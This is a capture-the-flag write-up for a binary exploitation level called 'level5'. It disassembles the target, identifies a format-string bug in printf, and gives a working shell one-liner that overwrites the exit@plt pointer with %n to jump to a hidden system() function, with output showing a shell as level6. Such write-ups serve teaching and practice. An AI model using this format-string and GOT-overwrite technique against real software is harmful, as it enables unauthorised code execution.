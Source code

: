 <span style="display: flex; justify-content: space-between;"><span style="text-align: left; display: block;">
	[← level4](../level4/solution.md)
</span>
<span style="text-align: center; display: block;">
	[Home](../README.md)
</span>
<span style="text-align: right; display: block;">
	[level6 →](../level6/solution.md)
</span>
</span>

level5
======

Dissassembly
------------

To dissassemble the executable we can use objdump.
```sh
EXECUTABLE=./level5

objdump -M intel -d "$EXECUTABLE"
```

The main function looks like this:
```nasm
08048504 <main>:
 8048504:	55                   	push   ebp
 8048505:	89 e5                	mov    ebp,esp
 8048507:	83 e4 f0             	and    esp,0xfffffff0
 804850a:	e8 b3 ff ff ff       	call   80484c2 <n>
 804850f:	c9                   	leave
```

It calls another function n, which uses printf to print our input:

```nasm
080484c2 <n>:
 80484c2:	55                   	push   ebp
 80484c3:	89 e5                	mov    ebp,esp
 80484c5:	81 ec 18 02 00 00    	sub    esp,0x218
 80484cb:	a1 48 98 04 08       	mov    eax,ds:0x8049848
 80484d0:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484d4:	c7 44 24 04 00 02 00 	mov    DWORD PTR [esp+0x4],0x200
 80484db:	00
 80484dc:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484e2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484e5:	e8 b6 fe ff ff       	call   80483a0 <fgets@plt>
 80484ea:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484f0:	89 04 24             	mov    DWORD PTR [esp],eax
 80484f3:	e8 88 fe ff ff       	call   8048380 <printf@plt>
 80484f8:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 80484ff:	e8 cc fe ff ff       	call   80483d0 <exit@plt>
```

There is a call to exit at the end of the procedure, so we cannot override the stored value of the EIP to jump on a shellcode.

There also is another function o, which uses a system call to run a shell:
```nasm
080484a4 <o>:
 80484a4:	55                   	push   ebp
 80484a5:	89 e5                	mov    ebp,esp
 80484a7:	83 ec 18             	sub    esp,0x18
 80484aa:	c7 04 24 f0 85 04 08 	mov    DWORD PTR [esp],0x80485f0
 80484b1:	e8 fa fe ff ff       	call   80483b0 <system@plt>
 80484b6:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 80484bd:	e8 ce fe ff ff       	call   8048390 <_exit@plt>
```

The problem is that it is not referenced, and needs to be accessed through a jmp or call instruction.
We can see that the only thing we can exploit would be the exit call itself, since we cannot reach any other function past this point.

The exit function uses a PLT-stub to redirect the call to the dynamically loaded libc library, whose address is only knwon past runtime-linking.
The stub function looks like this:
```nasm
080483d0 <exit@plt>:
 80483d0:	ff 25 38 98 04 08    	jmp    DWORD PTR ds:0x8049838
 80483d6:	68 28 00 00 00       	push   0x28
 80483db:	e9 90 ff ff ff       	jmp    8048370 <_init+0x3c>
```
The stub function jumps to a pointer stored at 0x8049838.
If we manage to overwrite this pointer, we can jump anywhere we want.

The stack of the n function looks like this:
| Address | Type           | Size |
|---------|----------------|------|
| -0x218  | char \*fmt     |   4  |
| -0x210  | FILE \*stdin   |   4  |
| -0x20c  | size_t len     |   4  |
| -0x208  | char data[200] | 512  |
|  0x000  | \*EBP          |   4  |
|  0x004  | \*EIP          |   4  |

We can place the address of the stub function's pointer to the start of our buffer, and write to it using the %n format specifier.

Let's try to jump to the o function with the system call:
```sh
ADDRESS=08049838
VALUE=080484a4

BYTES=$(<<< "$ADDRESS" rev | dd conv=swab | xxd -r -p)
LENGTH=$((16#$VALUE))
PADDING=$((LENGTH - ${#BYTES}))

(echo "${BYTES}%${PADDING}x%4\$n"; cat) | ./level5
```
```sh
...
200
whoami
level6
```
